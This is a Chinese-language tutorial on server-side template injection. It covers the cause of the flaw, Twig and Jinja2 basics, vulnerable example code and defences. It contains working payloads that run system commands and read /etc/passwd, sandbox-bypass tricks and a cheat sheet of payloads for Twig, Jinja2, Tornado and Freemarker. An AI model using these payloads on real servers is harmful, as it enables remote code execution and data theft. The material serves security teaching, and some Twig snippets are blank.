


# 模板注入（SSTI）完全指南

## 1. 概述

模板引擎可以让（网站）程序**实现界面与数据分离**，**业务代码与逻辑代码的分离**，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，依然有许多手段绕过它。

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。

模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

---

## 2. SSTI漏洞原理

SSTI就是服务器端模板注入（Server-Side Template Injection）

当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为Web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现SSTI的问题，SSTI不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。

**模板渲染其实并没有漏洞**，主要是程序员**对代码不规范不严谨**造成了模板注入漏洞，造成模板可控。

---

## 3. 各框架模板结构



---

## 4. PHP中的SSTI

### 4.1 Twig

Twig是一个灵活、快速、安全的PHP模板语言。它将模板编译成经过优化的原始PHP代码。Twig拥有一个sandbox模型来检测不可信的模板代码。

#### 4.1.1 Twig的安装

```bash
docker run -d -p 8080:80 -v /root/wwwtest/:/app/public/ --name lnmp74 registry.cn-hangzhou.aliyuncs.com/eagleslab/service:lnmp74
docker exec -it lnmp74 bash
cd /app/public
composer require "twig/twig:^3.0"
```

#### 4.1.2 Twig的使用

**方式一：ArrayLoader**

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');

$loader = new \Twig\Loader\ArrayLoader([
    'index' => 'Hello {{ name }}!',
]);
// ArrayLoader是通过数组传入模版

$twig = new \Twig\Environment($loader);
// 创建加载好模版的对象

echo $twig->render('index', ['name' => 'whoami']);
// 渲染模版
?>
```

**方式二：FilesystemLoader**

```php
<?php
include_once(__DIR__.'/vendor/autoload.php');

$loader = new \Twig\Loader\FilesystemLoader('./templates');
// 指定模版文件存放的目录

$twig = new \Twig\Environment($loader, [
    'cache' => './cache/views',    // cache for template files
]);
// 指定存放模版缓存的文件夹，渲染后的文件将会临时放在这个地方

echo $twig->render('index.html', ['name' => 'whoami']);
// 渲染index.html文件
?>
```

### 4.2 Twig模板基础语法

#### 4.2.1 变量

应用程序将变量传入模板中进行处理，变量可以包含你能访问的属性或元素。你可以使用`.`来访问变量中的属性：

```plain
{{ foo.bar }}
{{ foo['bar'] }}
```

#### 4.2.2 设置变量

可以为模板代码块内的变量赋值：

```plain



```

#### 4.2.3 过滤器

可以通过过滤器filters来修改模板中的变量：

```plain
{{ name|striptags|title }}
{{ list|join(', ') }}
```

#### 4.2.4 函数

在Twig模板中可以直接调用函数：

```plain

    {{ i }},

```

#### 4.2.5 控制结构

```plain

    <li>{{ user.username|e }}</li>



    <ul>
        
            <li>{{ user.username|e }}</li>
        
    </ul>

```

### 4.3 Twig模板注入

和其他的模板注入一样，Twig模板注入也是发生在直接将用户输入作为模板：

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate("Hello {$_GET['name']}!");

echo $template->render();
```

**Payload示例**：

```plain
?name={{["id"]|map("system")}}
```



---

## 5. Python中的SSTI

### 5.1 Jinja2

Jinja2是Python中最常用的模板引擎之一。

**漏洞示例**：

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    template = Template('Hello ' + name + '!')
    return template.render()

if __name__ == '__main__':
    app.run()
```

**Payload**：

```plain
{{7*7}}
{{config}}
{{self.__class__.__mro__[2].__subclasses__()}}
```

### 5.2 常用Payload

```plain
# 读取文件
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

# 执行命令
{{ ''.__class__.__mro__[2].__subclasses__()[40]('ls -la').read() }}
```

---

## 6. 绕过技巧

### 6.1 沙箱绕过

- 使用子类绕过
- 使用魔术方法绕过
- 使用编码绕过

### 6.2 常见绕过方法

```plain
# 使用request.args
{{''.__class__.__mro__[2].__subclasses__()[40](request.args.f).read()}}&f=/etc/passwd

# 使用request.values
{{''.__class__.__mro__[2].__subclasses__()[40](request.values.f).read()}}
```

---

## 7. 防御措施

1. **避免用户输入直接作为模板**：不要将用户输入直接拼接到模板字符串中
2. **使用白名单过滤**：对用户输入进行严格的过滤和验证
3. **限制模板引擎功能**：禁用危险的函数和方法
4. **使用沙箱模式**：启用模板引擎的沙箱模式
5. **定期更新模板引擎**：及时修复已知漏洞

---

## 8. 速查表

### 8.1 各框架Payload速查

| 框架 | Payload示例 |
|------|-------------|
| Twig (PHP) | `&#123;&#123;["id"]\|map("system")&#125;&#125;` |
| Jinja2 (Python) | `&#123;&#123;config&#125;&#125;` |
| Tornado (Python) | `&#123;%import os%&#125;&#123;&#123;os.system('id')&#125;&#125;` |
| Freemarker (Java) | `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}` |
